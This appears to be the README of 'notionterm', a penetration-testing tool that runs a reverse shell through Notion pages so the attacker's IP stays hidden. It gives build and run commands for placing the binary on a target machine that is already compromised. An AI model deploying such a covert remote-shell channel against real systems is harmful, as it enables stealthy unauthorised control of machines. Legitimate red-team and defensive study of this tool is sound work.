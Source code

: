 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>
</div>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication from the target to the notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

### 🏗️ Set-up
1. Create a page and give to the integration API key the permissions to have page write access
2. Build `notionterm` and transfer it on target machine (see [install](#install))

### 👟 Run

There are 3 main ways to run `notionterm`:

<details>
  <summary><b>"normal" mode</b><br><i>Get terminal, stop/unstop it, etc...</i></summary>
<code>
notionterm [flags]
</code><br>
Start the shell with the button widget: turn <code>ON</code>, do you reverse shell stuff, turn <code>OFF</code> to pause, turn <code>ON</code> to resume etc...
</details>

<details>
  <summary><b>"server" mode</b><br><i>Ease notionterm embedding in any page</i></summary>
<code>
notionterm --server [flags]
</code><br>
Start a shell session in any page by creating an embed block with URL containing the page id <i>(<code>CTRL+L</code>to get it)</i>: <code>https://[TARGET_URL]/notionterm?url=[NOTION_PAGE_ID]</code>.
</details>


<details>
  <summary><b><code>light</code> mode</b><br><i>Only perform HTTP traffic from target → notion</i></summary>
<code>
notionterm light [flags]
</code>
</details>

## Install

As `notionterm` is aimed to be run on target machine it must be built to fit with it.

Thus set env var to fit with the target requirement:
```shell
GOOS=[windows/linux/darwin]
```

### Simple build
```shell
git clone https://github.com/ariary/notionterm.git && cd notionterm
GOOS=$GOOS go build notionterm.go
```

You will need to set API key and notion page URL using either env var (`NOTION_TOKEN` & `NOTION_PAGE_URL`) or flags (`--token` & `--page-url`)

### "All-inclusive" build
Embed directly the notion integration API token and notion page url in the binary. *⚠️ everybody with access to the binary can retrieved the token. For security reason don't share it and remove it after use.*

Set according env var:
```shell
export NOTION_PAGE_URL=[NOTION_PAGE_URL]
export NOTION_TOKEN=[INTEGRATION_NOTION_TOKEN]
```
And build it:
```
git clone https://github.com/ariary/notionterm.git && cd notionterm
./static-build.sh $NOTION_PAGE_URL $NOTION_TOKEN $GOOS go build notionterm.go
```
